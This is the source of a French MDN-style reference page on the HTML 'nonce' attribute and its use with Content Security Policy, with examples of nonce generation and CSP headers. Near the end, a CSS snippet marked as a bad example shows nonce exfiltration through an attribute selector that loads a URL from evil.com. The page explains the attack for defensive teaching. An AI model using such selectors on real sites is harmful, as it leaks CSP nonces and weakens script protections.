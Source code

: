 ```yaml
---
title: nonce
slug: Web/HTML/Reference/Global_attributes/nonce
original_slug: Web/HTML/Global_attributes/nonce
---
```


{{HTMLSidebar("Global_attributes")}}

L'[attribut universel](/fr/docs/Web/HTML/Global_attributes) **`nonce`** est un attribut de contenu qui définit un nonce cryptographique pouvant être utilisé par une [règle de sécurité du contenu (CSP)](/fr/docs/Web/HTTP/CSP) afin de déterminer si la récupération d'un élément sera autorisée ou non.

## Description

L'attribut `nonce` permet d'autoriser certains éléments spécifiques (comme un script ou un style donné) en évitant d'avoir à utiliser la directive [CSP](/fr/docs/Web/HTTP/CSP) `unsafe-inline` qui autoriserait _tous_ les scripts ou styles embarqués.

> **Note :** `nonce` doit uniquement être utilisé pour les cas où il n'est pas possible de faire autrement que d'utiliser un script ou un style embarqué non sécurisé. Si vous n'avez pas besoin de `nonce`, il ne faut pas l'utiliser. Si votre script est statique, vous pouvez utiliser une empreinte (<i lang="en">hash</i>) CSP à la place (voir les notes d'utilisation sur [les scripts embarqués non sécurisés](/fr/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#scripts_embarqués_non_fiables).)
>
> Mieux vaut toujours exploiter les protections [CSP](/fr/docs/Web/HTTP/CSP) au maximum et donc éviter les nonces ou les scripts embarqués non sécurisés tant que possible.

### Utiliser `non` pour autoriser un élément &lt;script&gt;

Plusieurs étapes sont nécessaires afin d'utiliser un nonce pour autoriser un script embarqué.

#### Générer une valeur

Sur le serveur web, générez une chaîne de caractères encodées en base64 à partir de 128 bits de données générés par un générateur de nombres aléatoires cryptographique. Les nonces doivent être générés différemment à chaque chargement de la page. En Node.js par exemple, on pourra écrire&nbsp;:

```js
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Autoriser le script embarqué

Le nonce généré côté serveur peut ensuite être utilisé sur le script embarqué qu'on souhaite autoriser&nbsp;:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  …
</script>
```

#### Envoyer le nonce avec un en-tête CSP

Enfin, il faut envoyer la valeur du nonce dans un en-tête [`Content-Security-Policy`](/fr/docs/Web/HTTP/Headers/Content-Security-Policy) en préfixant la chaîne de caractères avec `nonce-`&nbsp;:

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Masquage et accès au nonce

Pour des raisons de sécurité, le contenu de l'attribut `nonce` est masqué (c'est une chaîne vide qui sera renvoyé).

```js example-bad
script.getAttribute("nonce"); // renvoie la chaîne vide
```

La propriété [`nonce`](/fr/docs/Web/API/HTMLElement/nonce) est la seule façon d'accéder aux nonces&nbsp;:

```js example-good
script.nonce; // renvoie la valeur du nonce
```

Un tel masquage empêche des acteurs malveillants d'exfiltrer les données du nonce grâce à des mécanismes qui permettent d'accéder aux attributs comme&nbsp;:

```css example-bad
script[nonce~="peuimporte"] {
  background: url("https://evil.com/nonce?peuimporte");
}
```

## Spécifications

{{Specifications}}

## Compatibilité des navigateurs

{{Compat}}

## Voir aussi

- [`HTMLElement.nonce`](/fr/docs/Web/API/HTMLElement/nonce)
- [Stratégie de sécurité du contenu (<i lang="en">Content Security Policy</i>) (CSP)](/fr/docs/Web/HTTP/CSP)
- La directive CSP [`script-src`](/fr/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
